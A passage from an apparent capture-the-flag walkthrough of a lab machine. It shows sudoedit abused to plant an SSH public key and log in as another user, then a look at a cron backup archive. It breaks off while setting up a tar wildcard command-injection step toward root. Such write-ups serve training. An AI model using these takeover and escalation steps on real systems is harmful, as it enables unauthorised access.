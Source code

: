 And nano opens, now generate ssh keys and paste it there

```bash
$ ssh-keygen -f jokerkey
$ cat jokerkey.pub 
ssh-rsa AAAAB3Nz.............................
```

Paste it there

```bash
sudoedit -u alekos /var/www/testing/priv/layout.html
```

And make a ssh connection

```bash
$ chmod 600 jokerkey
$ ssh -i jokerkey alekos@10.10.10.21
```

<br/>

Now from user to root

```bash
$ ls
backup  development  user.txt
```

In backup there are a lot of .tar.gz files, let's decompress one to see what's there

```bash
$ mkdir temp
$ cd temp
$ tar -xvf ../dev-1600112101.tar.gz
__init__.py
application.py
data/
data/shorty.db
models.py
static/
static/style.css
templates/
templates/layout.html
templates/not_found.html
templates/list.html
templates/display.html
templates/new.html
utils.py
views.py
$ ls
application.py  data  __init__.py  models.py  static  templates  utils.py  views.py
```

This is backing up what's on development every 5 minutes, there's a way to execute commands with tar and --, if you create a file like this:
